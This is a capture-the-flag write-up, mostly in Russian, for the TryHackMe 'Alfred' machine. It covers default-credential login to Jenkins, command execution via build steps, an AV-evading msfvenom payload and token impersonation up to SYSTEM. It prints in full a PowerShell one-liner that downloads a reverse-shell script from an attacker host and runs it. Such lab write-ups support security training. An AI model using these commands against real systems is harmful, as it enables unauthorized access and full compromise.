 # TryHackMe-Alfred


## Rustscan

```bash                                                                                                                      
PORT     STATE SERVICE    REASON          VERSION   
80/tcp   open  http       syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:                                                    
|   Supported Methods: OPTIONS TRACE GET HEAD POST                        
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5      
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped syn-ack ttl 127  
8080/tcp open  http       syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT        
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1     
| http-robots.txt: 1 disallowed entry                                     
|_/                                                                       
|_http-server-header: Jetty(9.4.z-SNAPSHOT)                               
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                  
```

## PORT 80 (HTTP)

<img src="https://imgur.com/OzQMPUD.png"/>

Здесь мы не видим ничего интересного, поэтому давайте перейдем к другому http-порту

## PORT 8080 (HTTP)

<img src="https://imgur.com/aXHhYWT.png"/>

Мы видим портал входа в систему jenkins, поэтому давайте попробуем использовать учетные данные по умолчанию

`admin:password`

<img src="https://imgur.com/hrO4m40.png"/>

И это не сработало, давайте попробуем admin:admin

<img src="https://imgur.com/aFModUR.png"/>


Это сработало там, где мы находимся, теперь нам нужно найти, где мы можем выполнять команды, чтобы получить обратную оболочку на целевой машине

Наведите курсор мыши на project, и вы увидите выпадающее меню

 <img src="https://i.imgur.com/15CMp1p.png"/>
 
У Вас будут такие варианты, как "Changes", "Workspace", "Build Now", "Delete Project"," Configure" и "Rename". Выберем `Configure`:

<img src="https://imgur.com/msvm69Y.png"/>

Переключимся на `Build Environment Tab`:

<img src="https://i.imgur.com/yUPIbcb.png"/>

Здесь Вы можете видеть, что есть команда, написанная как  whoami, так что давайте нажмем "Применить" и сохранимся:

<img src="https://i.imgur.com/eXEBFF6.png"/>

Нажмем на `#2`, затем на `Console Output`

<img src="https://i.imgur.com/H0Bx0xH.png"/>

<img src="https://imgur.com/0S5GrCG.png"/>

И Вы можете видеть, какую бы команду мы там ни вводили, она покажет результат, так что теперь все, что мы можем сделать, это разместить сценарий обратной оболочки powershell, загрузить его с помощью powershell и выполнить функцию в сценарии, чтобы получить оболочку:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

Запустите свой http-сервер python3

<img src="https://imgur.com/Ffh7FPk.png"/>

И наша команда будет выглядеть так: запустите прослушиватель netcat:

<img src="https://imgur.com/L7kRLea.png"/>

<img src="https://imgur.com/GGcjVVU.png"/>

Теперь нажмите `Build Now`, и это задание будет запущено, и Вы получите оболочку:

<img src="https://imgur.com/2LThZZr.png"/>

Сгенерируйте полезную нагрузку msfvenom с кодировщиками для обхода AV.
Разместите ее на своем локальном компьютере и загрузите, повторив тот же метод:


<img src="https://imgur.com/2px77nI.png"/>

Настройте свой прослушиватель metasploit

<img src="https://imgur.com/IKY1jka.png"/>

<img src="https://imgur.com/G6SR5wL.png"/>

<img src="https://i.imgur.com/uhZl5vx.png"/>

Запустите полезную нагрузку, и Вы увидите, что откроется сеанс meterpreter:

<img src="https://i.imgur.com/YF8AsSf.png"/>

Running the command `getprivs` we can see what privileges we have on the machine

<img src="https://i.imgur.com/zaqoz9K.png"/>

Here we can escalate our privleges through `SeImpersonatePrivilege`

Run the command `load icognito` through this module we can impersonate tokens

<img src="https://imgur.com/IbKIzYL.png"/>

<img src="https://imgur.com/macZDV5.png"/>

<img src="https://i.imgur.com/enPc6EW.png"/>

<img src="https://imgur.com/iE8Xsw7.png"/>

<img src="https://imgur.com/Ivy4Yaa.png"/>

Now even though we have SYSTEM on the machine but still we won't be able to access system files as it uses the primary token of the process and not the impersonated token so we need to migrate to a process running as SYSTEM which is `services.exe`

<img src="https://i.imgur.com/ltPg2LG.png"/>

<img src="https://imgur.com/3P3tLr5.png"/>

<img src="https://imgur.com/h1cTVks.png"/>

